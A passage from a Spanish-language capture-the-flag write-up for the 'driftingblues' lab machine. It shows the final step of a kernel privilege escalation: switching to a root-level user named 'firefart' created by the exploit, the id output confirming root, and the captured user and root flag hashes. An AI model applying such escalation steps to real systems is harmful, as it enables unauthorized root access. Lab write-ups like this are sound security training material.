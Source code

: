 Veremos que se ha realizado de forma correcta, por lo que haremos lo siguiente:

```shell
su firefart
```

Metemos como contraseña `1234` y veremos que seremos dicho usuario.

```
whoami
whoami
firefart
firefart@driftingblues:/var/www/textpattern/files# id
id
uid=0(firefart) gid=0(root) groups=0(root)
```

Veremos que ya tendremos los privilegios de `root` directamente ya que es una vulnerabilidad de `kernel` y todo se ejecuta con privilegios elevados, por lo que leeremos las `flags` de usuario y `root`.

> user.txt

```
5355B03AF00225CFB210AE9CA8931E51
```

> root.txt

```
CCAD89B795EE7BCF7BBAD5A46F40F488
```
